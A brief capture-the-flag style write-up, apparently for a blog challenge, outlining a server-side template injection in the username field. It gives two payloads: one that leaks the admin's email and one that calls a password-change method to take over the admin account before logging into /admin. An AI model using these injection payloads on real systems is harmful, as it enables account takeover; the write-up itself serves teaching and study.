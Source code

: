 [solution](https://www.youtube.com/watch?v=Zia0B4OESgA)

tl;dr
some source code at /models/ and /web/
SSTI in username
get admin's email: set username to {{.Post.Author}} and access blog post
change admin's password: set username to {{.Post.Author.ChangePassword "x"}} and access blog post
login and access /admin
